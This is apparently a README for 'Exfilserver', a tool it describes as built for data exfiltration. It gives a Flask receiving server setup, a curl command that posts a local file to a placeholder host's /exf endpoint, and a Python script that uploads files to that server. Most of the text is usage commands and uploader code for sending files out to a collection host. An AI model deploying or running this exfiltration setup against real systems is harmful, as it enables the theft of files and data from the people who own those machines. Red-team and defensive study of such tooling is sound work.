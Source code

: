 # 📭 Exfilserver

> 📨 Data exfiltration via upload using curl or similar... 

### Run in you server:

```sh
pip install Flask \
python3 server.py -p 80 -f /tmp/files
```

### Upload from sender:

> By Curl:

```sh
curl -X POST -F "file=@./file" http://<youhostname>:80/exf
```

> By python:
```py
import requests
import sys

def upload_file(server_url, file_path):
    url = f"{server_url}/exf"
    try:
        with open(file_path, 'rb') as f:
            files = {'file': (file_path, f)}
            response = requests.post(url, files=files)
        print(f"[*] Status: {response.status_code}")
        print(f"[*] Response of server: {response.text}")
    except Exception as e:
        print(f"[!] Error to send file: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <server_url> <file_path>")
        sys.exit(1)

    server_url = sys.argv[1]   # example: http://127.0.0.1:80
    file_path = sys.argv[2]
    upload_file(server_url, file_path)
```

